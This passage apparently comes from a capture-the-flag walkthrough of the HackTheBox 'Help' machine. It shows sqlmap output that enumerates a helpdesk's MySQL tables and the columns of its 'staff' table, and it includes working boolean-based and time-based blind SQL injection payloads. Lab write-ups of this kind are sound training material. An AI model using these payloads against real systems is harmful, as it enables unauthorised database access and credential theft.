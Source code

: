 ```bash
| error_log              |
| file_types             |
| knowledgebase_category |
| login_attempt          |
| login_log              |
| news                   |
| pages                  |
| priority               |
| settings               |
| staff                  |
| tickets                |
| tickets_messages       |
| users                  |
+------------------------+

[14:39:44] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/help.htb'

[*] ending @ 14:39:44 /2025-08-27/

----------------------------------------------------------------------
$ sqlmap -r ticket.req --batch --thread 10 -D support -T staff --columns
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.9.3.3#dev}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:40:14 /2025-08-27/

[14:40:14] [INFO] parsing HTTP request from 'ticket.req'
[14:40:15] [INFO] resuming back-end DBMS 'mysql' 
[14:40:15] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: param[] (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 AND 2859=2859

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: v=view_tickets&action=ticket&param[]=8&param[]=attachment&param[]=5&param[]=10 AND (SELECT 7344 FROM (SELECT(SLEEP(5)))Tifo)
---
[14:40:15] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (yakkety or xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.12
[14:40:15] [INFO] fetching columns for table 'staff' in database 'support'
[14:40:15] [INFO] retrieved: 14
[14:40:16] [INFO] retrieving the length of query output
[14:40:16] [INFO] retrieved: 2
[14:40:17] [INFO] retrieved: id           
[14:40:17] [INFO] retrieving the length of query output
[14:40:17] [INFO] retrieved: 7
...
```